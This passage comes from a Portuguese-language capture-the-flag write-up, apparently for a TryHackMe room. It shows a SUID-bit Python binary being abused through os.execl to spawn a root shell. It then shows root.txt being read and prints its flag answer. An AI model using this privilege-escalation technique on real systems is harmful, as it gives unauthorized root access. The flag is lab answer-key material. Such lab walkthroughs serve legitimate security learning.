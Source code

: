 ![alt](img9.png)

Na seção de SUID, temos o código
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![alt](img10.png)

Aqui o Python executa um shell (`sh`) com privilégios elevados devido ao SUID.

```bash
www-data@ip-10-10-49-88:/$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Após rodar, verificamos se virou root:

```bash
# whoami
root
```
---

### 9. root.txt:

Agora com privilégios root, acessamos a pasta /root para pegar a flag:

```bash
cd /root
ls
root.txt  snap   
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
**Resposta:** `THM{pr1v1l3g3_3sc4l4t10n}`

<div align="center"> <h2>CTF CONCLUÍDO! 🚩🏆</h2> </div>